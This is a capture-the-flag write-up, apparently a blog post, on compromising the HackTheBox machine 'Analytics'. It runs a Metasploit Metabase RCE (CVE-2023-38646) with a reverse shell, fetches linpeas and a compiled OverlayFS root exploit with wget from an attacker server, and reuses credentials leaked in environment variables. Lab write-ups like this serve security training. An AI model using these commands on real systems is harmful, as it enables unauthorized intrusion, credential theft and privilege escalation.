 ```yaml
---
layout: post
title: Analytics
date: '2023-11-07 07:40:44 +0300'
cover: img/cover_images/41.png
description: "Analytics is an easy linux machine from HTB"
categories: [HTB, Analytics]
---
```


## Machine Info

> **[Analytics](https://app.hackthebox.com/machines/Analytics)** is an easy linux machine which leverages `Metabse RCE` and `Ubuntu OverLaysFs Local privesc`
{: .prompt-info }

## ENUMERATION
We perform a simple scan for top 100 ports

```bash
nmap -sV -sC -top-ports 100 10.10.11.233
```

output

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.88s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.83 seconds
```

Since we have port 80(HTTP) open we add the ip to our hosts file 

```bash
echo '10.10.11.233 analytical.htb' | sudo tee -a /etc/hosts
```

After opening the browser we click the login button and we are directed to another subdomain. We proceed again and add it to the hosts list

![img-description](/assets/img/analytical/1.png)

```bash
echo '10.10.11.233 data.analytical.htb' | sudo tee -a /etc/hosts
```

We get a metabase login page. We google for any available exploits for the service.

![img-description](/assets/img/analytical/2.png)

After some google searching i came across this [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

We proceed to msfconsole since the exploit is available
```bash
msf6 > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > 
```

Use show options command to see the options required and set them

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST tun0
LHOST => 10.10.16.54
```
Lets run the exploit and boom "WE ARE IN"

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.16.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.54:4444 -> 10.10.11.233:52878) at 2023-11-07 08:14:43 +0300

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
whoami
metabase
```

Next we need to get and run linpeas to see if we can get something misconfigured in the system. We start our python server to upload linpeas
```bash
sudo python -m http.server 80
```

```bash
cd /home/metabase
wget http://10.10.16.54/linpeas.sh
```

```bash
bash linpeas.sh
```

After running linpeas.sh we get META_USER and META_PASS in the environment variables

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?
SHELL=/bin/sh
MB_DB_PASS=
HISTSIZE=0
HOSTNAME=1786d82953d0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
HISTFILE=/dev/null
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=7
MB_DB_USER=
```

We ssh into the machine with the credentials 
```bash
ssh metalytics@10.10.11.233
password: An4lytics_ds20223#
```

```bash
metalytics@analytics:~$ ls
1  m  tmp  u  user.txt  w
```
## PRIVILEGE ESCALATION

We check the os version and find it is Ubuntu 20.04 LTS which has a public [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------)
```bash
metalytics@analytics:~$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

We download the exploit and compile it on our local machine
```bash
gcc exploit.c -o exploit
```

We start our server again and get the exploit
```bash
sudo python -m http.server 80
``` 

```bash
wget http://10.10.16.54/exploit
```

We change the permissions of the file and run it. We are now r00t

```bash
metalytics@analytics:~$ chmod +x exploit
metalytics@analytics:~$ ./exploit
bash-5.1#
```

![img-description](/assets/img/analytical/3.png)

